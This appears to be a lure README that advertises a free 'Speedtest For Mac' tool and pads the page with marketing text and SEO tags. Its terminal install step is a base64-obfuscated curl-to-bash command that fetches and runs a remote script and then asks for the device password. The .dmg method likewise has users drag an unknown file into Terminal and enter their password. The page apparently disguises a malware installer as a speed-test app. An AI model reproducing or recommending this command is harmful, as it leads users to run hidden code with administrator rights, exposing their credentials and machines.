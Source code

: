 # Speedtest For Mac — Free Download for macOS 🚀
![logo](https://m.media-amazon.com/images/I/2165FoT1qvL.png)

Effortlessly measure your internet speed with Speedtest For Mac. Follow the simple instructions below to install this lightweight, user-friendly tool on your macOS device and optimize your network performance.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/speedtest)

If the download button doesn't work, follow the terminal instructions below for a seamless installation.

## 📦 How to Install Speedtest For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with Speedtest For Mac

- 🚀 **Fast Performance Testing**: Measure download and upload speeds in seconds with high accuracy.
- 📊 **Detailed Metrics**: View ping, jitter, and packet loss for a comprehensive network analysis.
- 🌐 **Global Server Network**: Connect to thousands of servers worldwide for reliable results.
- 🖥 **User-Friendly Interface**: Enjoy a sleek, macOS-optimized design for easy navigation.
- 📈 **Historical Data Tracking**: Save and compare past test results to monitor network trends.
- 🔒 **Secure and Private**: Your data remains safe with no third-party tracking.

## About Speedtest For Mac

Speedtest For Mac is a powerful, free tool designed to help macOS users measure their internet connection's performance with ease. Whether you're troubleshooting slow downloads, optimizing your network for gaming, or ensuring your Wi-Fi is ready for streaming, Speedtest For Mac delivers accurate results in a sleek, macOS-native interface. By leveraging a global network of servers, this software ensures you can test your connection against the most relevant endpoints, providing reliable metrics for download speed, upload speed, and latency. The intuitive design makes it accessible for both casual users and IT professionals looking to diagnose network issues efficiently.

The software’s lightweight architecture ensures it runs smoothly on any macOS device, from MacBook Air to iMac Pro, without taxing system resources. Speedtest For Mac stands out with its ability to track historical data, allowing users to compare performance over time and identify patterns in network behavior. This feature is particularly useful for remote workers or businesses relying on consistent connectivity for video calls, cloud services, or large file transfers. With no complicated setup required, the installation process is streamlined, whether you choose the .dmg file or the terminal-based method.

Security is a core focus of Speedtest For Mac. Unlike some network tools, it prioritizes user privacy by avoiding unnecessary data collection and ensuring all tests are conducted securely. The application is regularly updated to maintain compatibility with the latest macOS versions, ensuring a seamless experience even on macOS Sequoia or beyond. Its open-source components also allow developers to contribute to its improvement, making it a community-driven solution for network diagnostics.

Another key advantage is its global server network, which enables precise testing regardless of your location. Whether you're in a bustling city or a remote area, Speedtest For Mac connects you to the nearest high-performance server for accurate results. The software also provides advanced metrics like jitter and packet loss, which are critical for gamers, streamers, and professionals relying on real-time applications. These features make it an essential tool for anyone seeking to optimize their internet experience.

**Why Choose Speedtest For Mac?**  
Speedtest For Mac offers unmatched simplicity and reliability compared to other network testing tools. Its macOS-optimized design ensures a native experience, while its comprehensive metrics provide insights that go beyond basic speed tests. The software is completely free, with no hidden fees or subscriptions, making it accessible to all macOS users. Regular updates and a commitment to privacy further enhance its appeal, ensuring you can trust Speedtest For Mac for all your network testing needs.

## 🖼 Preview

![Main Interface](https://media.idownloadblog.com/wp-content/uploads/2022/04/Terminal-Speed-Test-macOS.jpg)  
*Clean and intuitive Speedtest For Mac interface displaying real-time speed metrics.*

![Server Selection](https://www.speedtest.net/images/Facebook-AdArtboard-1-2.png)  
*Selecting a global server for accurate speed testing.*

## 🔍 Tags

speedtest for mac, free speedtest mac, macos internet speed test, download speedtest mac, speedtest mac download, speedtest download, speedtest free, download speedtest, speedtest for mac, speedtest desktop, ookla speed test for mac, ookla speed test mac, speed test app for mac, macbook speed test, apple computer speed test
